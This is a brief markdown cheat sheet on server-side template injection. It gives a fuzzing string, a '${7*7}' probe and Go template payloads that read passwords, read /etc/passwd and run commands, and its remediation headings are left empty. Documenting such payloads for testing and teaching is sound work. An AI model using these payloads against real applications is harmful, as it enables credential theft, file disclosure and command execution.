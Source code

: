 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*7}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads:

## Go SSTI

### 1) {{ .Password }} (Fetches the passwords of all users)

### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

### 3) {{ .ExecuteCmd "whoami" }} Executes commands

### 4) {{ . }} (Fetches all data available)
